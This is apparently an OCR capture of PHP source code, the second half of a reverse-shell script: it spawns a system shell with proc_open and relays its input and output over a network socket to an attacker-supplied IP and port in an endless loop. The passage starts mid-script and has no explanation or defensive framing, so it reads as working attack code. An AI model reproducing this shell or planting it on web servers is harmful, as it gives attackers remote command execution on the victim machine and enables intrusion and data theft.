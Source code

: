 ```php
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}
?>
```
